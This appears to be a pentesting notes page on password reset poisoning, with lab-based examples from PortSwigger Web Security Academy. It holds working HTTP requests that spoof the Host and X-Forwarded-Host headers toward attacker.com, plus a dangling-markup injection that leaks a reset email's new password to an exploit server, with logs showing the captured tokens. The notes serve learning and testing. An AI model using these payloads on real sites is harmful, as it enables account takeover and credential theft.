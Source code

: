 >[!abstract]
>Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

## Techniques

- [Host Header attacks](Host%20Header%20attacks.md)
- Poisoning via middleware ([Non-standard headers override](Host%20Header%20attacks.md#Non-standard%20headers%20override)) (`X-Forwarded-Host`, `X-Forwarded-For`, `X-Remote-IP`, `X-Remote-Addr`, `X-Originating-IP`): consider using [Collaborator Everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968#:~:text=This%20extension%20augments%20your%20in,and%20browse%20the%20target%20website.)
- [Dangling markup injection](Cross-Site%20Scripting%20(XSS).md#Dangling%20markup%20injection)

>[!warning]
>Some time automated mail filters click link instead of the user!

# Examples

## Password reset poisoning exploiting host header injection

```http
POST /forgot-password HTTP/2
Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victim
```

Spoofed Host header used to send the password reset secret-token:
> Hello! 
> Please follow the link below to reset your password.
> https://attacker.com/forgot-password?temp-forgot-password-token=YeVH5sp94doHd9wlrPhpL7xIwPZmZ5DJ
> Thanks,
> Support team

If the user clicks, attackers can takeover his account:
```
...
10.0.3.75       2023-04-01 15:17:59 +0000 "GET /forgot-password?temp-forgot-password-token=yd7scgKr0YB4Gkfxc9qPGwyQTZpkVgTL HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"
...
```

## Password reset poisoning via middleware

```http
POST /forgot-password HTTP/2
Host: real.site.com
X-Forwarded-Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victims
```

Spoofed `X-Forwarded-Host` header used to send the password reset secret-token. If the user clicks, attackers can takeover his account.

## Password reset poisoning via dangling markup

The reset password functionality send the new password via email:
```html
Sent:     2023-06-29 20:14:59 +0000
From:     no-reply@0a3f00ce03414c9780ae6733005400d9.web-security-academy.net
To:       wiener@exploit-0a46000703614c3680c46685017b00be.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0a3f00ce03414c9780ae6733005400d9.web-security-academy.net/login'>click here</a> to login with your new password: LNJYfitpA2</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

A flaw in the Host verification allows to append arbitrary non numeric ports at the end of the domain while sending the password reset request:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=wiener


Sent:     2023-06-30 08:19:24 +0000
From:     no-reply@0ad900f10337348d84f9a55800a100a7.web-security-academy.net
To:       wiener@change.exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd/login'>click here</a> 
```

We can exploit this flaw to inject an arbitrary image referencing our server and leak part of the email body:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:'/></a><img src="https://exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net?carlos=

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=carlos
```

Server response (the integrated AV scanned the link without requiring user interaction):
```html
...
10.0.3.52       2023-06-30 08:48:12 +0000 "GET ?carlos=/login'>click+here</a>+to+login+with+your+new+password:+X5qD9PDfBN</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200 
...
```

## Homograph attacks

![Homograph characters](Evading%20Restrictions.md#Homograph%20characters)